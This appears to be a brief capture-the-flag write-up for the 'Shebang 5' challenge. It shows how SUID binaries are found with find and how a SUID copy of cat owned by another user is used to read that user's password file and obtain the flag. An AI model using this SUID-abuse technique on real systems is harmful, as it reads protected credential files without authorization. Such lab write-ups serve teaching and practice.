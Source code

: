 # Shebang 5

## Task

## Solution

We need to find a bad file. A SUID binary for example.

```bash
$ find / -perm -4000
...
/var/cat
...
$ ls -lah /var/cat
---s--x--x 1 shebang6 root 17K Oct 14 20:51 /var/cat
```

Hmm, that seems suspicious. Let's find files owned by that user:

```bash
$ find / -user shebang6 2>/dev/null
/var/cat
/etc/passwords/shebang6
$ /var/cat /etc/passwords/shebang6
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
```
